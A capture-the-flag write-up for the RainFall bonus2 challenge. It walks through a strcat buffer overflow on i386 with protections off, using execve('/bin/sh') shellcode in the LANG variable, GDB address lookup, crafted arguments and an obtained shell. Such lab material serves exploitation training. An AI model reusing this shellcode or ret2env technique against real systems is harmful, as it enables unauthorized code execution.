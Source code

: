 # RainFall bonus2 - ret2env Exploit Guide

## Context

This is a buffer overflow exploitation guide for the bonus2 challenge from the RainFall project. The objective is to exploit a `strcat` vulnerability to execute shellcode placed in an environment variable.

**Prerequisites:**
- Lab/CTF environment only
- Architecture: i386
- Protections: NX off, PIE off, ASLR off (stable addresses)

## Overview

The vulnerability exists in the `strcat` operation within the `greetuser` function:
- `main` reads `argv[1]` (40 bytes) and `argv[2]` (32 bytes) into separate buffers
- These are copied to a 76-byte zone that `greetuser` reads via `&stack0x00000004` (ebp+8)
- `greetuser` writes a greeting to destination `&local_4c` then calls `strcat(dest, src)`
- We overflow the destination to overwrite the return address with a pointer to shellcode in the `LANG` environment variable

## Memory Layout Analysis

### Stack Layout in greetuser
```
&local_4c (dest)  [4 bytes]
local_48          [4 bytes]
local_44          [64 bytes]
saved EBP         [4 bytes]
RET               [4 bytes]  ← Target
```

**Distance from dest to RET = 76 bytes**

### Why 23 bytes of padding?

1. **Greeting offset**: In Dutch mode, greeting is "Goedemiddag! " (13 bytes)
2. **strcat starts writing after greeting**: dest + 13
3. **Offset to reach RET**: 76 - 13 = 63 bytes from source start
4. **argv1 takes first 40 bytes** of source (argv1 || argv2)
5. **Target position in argv2**: 63 - 40 = 23

```
DEST: "Goedemiddag! " + (strcat from SRC)
SRC:  [ argv1 (40) ][ argv2 ... ]
                      ^
                      argv2[23] = 1st byte of address (little-endian)
```

## Step-by-Step Exploitation

### 1. Prepare Shellcode in LANG Environment Variable

```bash
export LANG=$(python -c 'print "nl" + "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80" + "\x90"*50')
```

**Components:**
- `"nl"`: Forces Dutch branch (13-byte greeting)
- `"\x90"*100`: NOP sled (landing zone)
- Shellcode: execve("/bin/sh") without null bytes
- `"\x90"*50`: Additional NOPs

### 2. Find LANG Address in Memory

Using GDB to find the environment variable address:

```bash
gdb ./bonus2
(gdb) b *0x080485a6          # Break after getenv call
(gdb) run AAAA BBBB
(gdb) ni                     # Step to return from getenv
(gdb) p/x $eax               # EAX contains LANG address
$1 = 0xbffffe8b              # Example address
(gdb) p/x $eax+0x42          # Target = LANG_ADDR + 2 + 64
$2 = 0xbffffecd              # Example target
(gdb) quit
```

**Target calculation**: `LANG_ADDR + 2 + 64`
- `+2`: Skip "nl" prefix
- `+64`: Land in middle of NOP sled

### 3. Convert Address to Little-Endian

For target address `0xbffffecd`, the bytes are: `\xCD\xFE\xFF\xBF`

### 4. Construct Exploit Arguments

```bash
ARG1=$(python -c 'print "A"*40')
ARG2=$(python -c 'print "B"*23 + "\xCD\xFE\xFF\xBF"')
```

**Structure:**
- `ARG1`: 40 bytes of padding (fills argv1 slot)
- `ARG2`: 23 bytes padding + 4-byte target address

### 5. Execute Exploit

```bash
./bonus2 "$ARG1" "$ARG2"
```

Expected output:
```
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBB����
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

## Troubleshooting

### Segmentation Fault
- **Wrong address**: Re-measure LANG address in GDB after setting environment
- **NOP sled miss**: Adjust offset (try +0x3A or +0x4A instead of +0x42)
- **Endianness error**: Verify little-endian byte order

### Wrong Greeting Language
- Ensure LANG starts with "nl" to trigger Dutch greeting
- Check that greeting length is exactly 13 bytes

### General Issues
- Verify protections are disabled (NX/PIE/ASLR)
- Confirm argv1 is exactly 40 bytes
- Ensure target address starts at argv2[23]

## Technical Summary

- **Buffer overflow**: `strcat` in `greetuser` function
- **Target**: Return address at offset 76 from destination buffer
- **Payload structure**: 13-byte greeting + 40-byte argv1 + 23-byte padding + 4-byte address
- **Shellcode location**: LANG environment variable with NOP sled
- **Technique**: ret2env (return to environment variable)

## Security Note

This exploit only works in controlled environments with disabled security protections. Modern systems with NX, ASLR, and stack canaries would prevent this attack.